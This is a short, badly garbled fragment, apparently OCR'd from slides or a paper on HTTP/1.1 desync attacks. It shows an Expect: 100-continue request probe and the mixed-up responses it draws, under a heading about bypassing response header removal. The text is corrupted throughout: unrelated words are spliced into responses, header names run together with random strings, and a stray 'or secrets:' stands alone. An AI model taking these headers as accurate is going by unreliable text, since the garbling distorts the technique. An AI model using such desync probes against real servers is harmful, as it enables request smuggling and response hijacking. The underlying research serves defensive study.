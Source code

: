 ```HTTP title:response
HTTP/1.1 404 Not Found
HTTP/1.1 100 Continue

d

Ask the hotel which eHTTP/1.1 404 Not Found
HTTP/1.1 100 Continue

d
```

or secrets:
```http title:request
POST / HTTP/1.1
Host: <redacted>
Expect: 100-continue
Content-Length: 1

X
```

```http title:response
HTTP/1.1 401 Unauthorized
Www-Authenticate: Bearer
HTTP/1.1 100 ContinTransfer-EncodingzxWthTQmiI8fJ4oj9fzE"
X-: chunked

HTTP/1.1 401 Unauthorized
Www-Authenticate: Bearer
HTTP/1.1 100 ContinTransfer-EncodingzxWthTQm145
```

### Bypassing response header removal

![](attachments/James%20Kettle%20-%20HTTP1.1%20must%20die%20the%20desync%20endgame-13.png)
